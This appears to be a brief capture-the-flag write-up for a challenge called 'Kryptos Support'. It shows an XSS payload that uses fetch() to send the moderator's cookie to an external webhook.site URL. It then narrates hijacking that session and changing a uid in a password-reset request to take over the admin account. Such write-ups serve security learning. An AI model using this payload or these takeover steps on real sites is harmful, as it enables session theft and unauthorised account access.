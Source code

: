 # Kryptos Support

![](0.png)

![](1.png)

```javascript
<script>
fetch('https://webhook.site/cf6faa28-30fd-4944-b44d-235fedf9cd36?cookie=' + document.cookie)
</script>
```

![](2.png)

 Gets us the cookie of the moderator.  

 ![](3.png)

 From there we can set the cookie in our local browser and try to go the settings page which gives us a prompt to reset the password without knowing the old one. Trying it out, it sends the following payload:

 ![](4.png)

 So, let's try setting the uid until we get something useful back. Luckily `1` is `admin`

 ![](5.png)

 and we have our changed password! Logging in as `admin`:`test` yields:

 ![](6.png)